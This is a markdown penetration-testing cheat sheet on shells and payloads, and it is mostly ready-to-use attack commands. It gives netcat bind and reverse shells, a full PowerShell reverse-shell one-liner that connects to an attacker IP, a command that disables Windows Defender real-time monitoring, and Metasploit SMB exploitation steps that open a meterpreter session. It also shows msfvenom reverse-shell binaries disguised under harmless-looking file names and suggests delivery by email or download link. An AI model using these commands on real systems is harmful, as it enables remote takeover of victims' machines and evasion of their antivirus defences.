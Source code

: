 # 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📦 Payloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
search smb
```

Selecting an Exploit  

```bash
use 56
```

Examining an Exploit's Options  

```bash
options
```

Setting Options  

```bash
set RHOSTS <TARGET IP>
set SMBUser <USER>
set SMBPass <PASSWORD>
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 
  
```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>